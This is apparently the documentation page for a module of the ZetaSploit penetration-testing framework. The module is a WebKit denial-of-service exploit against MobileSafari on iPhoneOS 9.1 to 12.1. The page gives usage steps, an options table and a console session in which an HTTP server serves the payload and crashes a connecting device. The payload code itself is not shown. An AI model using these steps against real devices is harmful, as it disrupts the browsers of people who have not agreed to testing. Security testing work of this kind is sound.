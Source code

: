 # `exploit/iphoneos/mobile_safari_app/webkit_filter_dos`

## Description

iPhoneOS 9.1 till 12.1 MobileSafari.app WebKit Filter DoS.

## Verification Steps

1. Start ZetaSploit
2. Do `use exploit/iphoneos/mobile_safari_app/webkit_filter_dos`
3. Do: `set LHOST` to your local host
4. Do: `set LPORT` to your local port
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description        |
|-----------|-----------------------|----------|--------------------|
| `LHOST`   | `self.helper.getip()` | yes      | Local host.        |
| `LPORT`   | 80                    | yes      | Local port.        |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

## Scenarios

```
(zsf)> use exploit/iphoneos/mobile_safari_app/webkit_filter_dos
(zsf: exploit: mobile_safari_app/webkit_filter_dos)> show options
 
Module Options
==============
 
    Option    Value           Required    Description    
    ------    -----           --------    -----------    
    LHOST     192.168.1.95    yes         Local host.    
    LPORT     80              yes         Local port.    
 
(zsf: exploit: mobile_safari_app/webkit_filter_dos)> run
[*] Starting http server on port 80...
[*] Serving payload on http server...
[*] Listeting for connections...
[i] Press Ctrl-C to stop server.
[+] Connection from 192.168.1.55!
[*] Performing WebKit Filter DoS attack...
[+] WebKit Filter DoS attack completed!
[*] Listeting for connections...
```
